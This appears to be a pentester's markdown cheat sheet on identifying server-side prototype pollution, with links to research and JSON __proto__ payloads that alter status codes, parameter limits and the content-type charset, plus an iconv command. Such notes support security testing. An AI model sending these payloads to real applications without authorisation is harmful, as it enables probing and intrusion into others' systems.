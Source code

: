 # Prototype Pollution
## Useful links
- [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution#prototype-pollution)
- [Blackbox detection](https://portswigger.net/research/server-side-prototype-pollution)

## Identification
- **Status code** during manipulation (in case of invalid JSON)
```json
{
	"__proto__":{
		"status":555
	}
}
```
- **Parameter limiting** (reflection of request parameters in response).
Manipulation the number of GET parameters returned by the web application by polluting the `parameterLimit` property of the Object.prototype object 
```json
{
	"__proto__":{
		"parameterLimit":1
	}
}
```
- **Content-Type**. We can force the web application to accept other encodings without breaking the web application. We will use the `UTF-7` encoding for this since it does not break the web application's default `UTF-8` encoding. First, we need to encode a test string in `UTF-7`, which we can do using `iconv`
```bash
echo -n 'HelloWorld!!!' | iconv -f UTF-8 -t UTF-7
```
If we send the test string to the web application, it is reflected as-is. In particular, it was not UTF-7 decoded. 

We can manipulate the value of the `Content-Type` Header used by the web application by polluting the content-type property of the Object.prototype object using a payload similar to the following:
```json
{
	"__proto__":{
		"content-type":"application/json; charset=utf-7"
	}
}
```

